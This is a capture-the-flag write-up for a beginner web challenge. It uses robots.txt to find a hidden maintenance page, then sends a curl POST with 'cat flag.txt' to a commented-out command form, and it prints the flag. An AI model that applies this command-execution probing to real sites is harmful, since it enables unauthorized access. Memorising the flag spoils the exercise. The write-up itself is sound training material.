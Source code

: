 
# DENIED

* **Category**: Web Security
* **Points**: 75
* **Challenge**: Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:27856 The flag is in flag.txt.
* **Hint #1**: How can websites keep search engines from finding private information?
* **Hint #2**: Sometimes the developers leave some comments that give you a hint about what to do...
* **Hint #3**: You can use the cat command to read files

<br />

First, lets navigate to the site in a web browser:

<br />

![site]()

<br />

Based on the hints and the image of a robot, lets look at the robots.txt file:

```
curl http://challenge.acictf.com:27856/robots.txt

User-agent: *
Allow: /index.html
Allow: /products.html
Disallow: /maintenance_foo_bar_deadbeef_12345.html
```

<br />

Lets look at the disallowed page, `/maintenance_foo_bar_deadbeef_12345.html`:

<br />

![maintenance]()

<br />

So the page tells us to *run a command*.  Lets looks at the source of the page to see if their are any hints on how to do this:
```
*...snip...*

        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->

*...snip...*
```

<br />

Lets use `curl` to send a POST request to this insecure page with the parameter *cmd* and the value of *cat flag.txt*:
```

curl http://challenge.acictf.com:27856/secret_maintenance_foo_543212345 -X POST --form cmd='cat flag.txt'

```
*...snip...*

<h1>Maintenance</h1>
        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->
        <p>Result: ACI{ccdcb229da85c8d0a6a239edb19} </p>

*...snip...*  
```

<br />

##Flag: ACI{ccdcb229da85c8d0a6a239edb19}

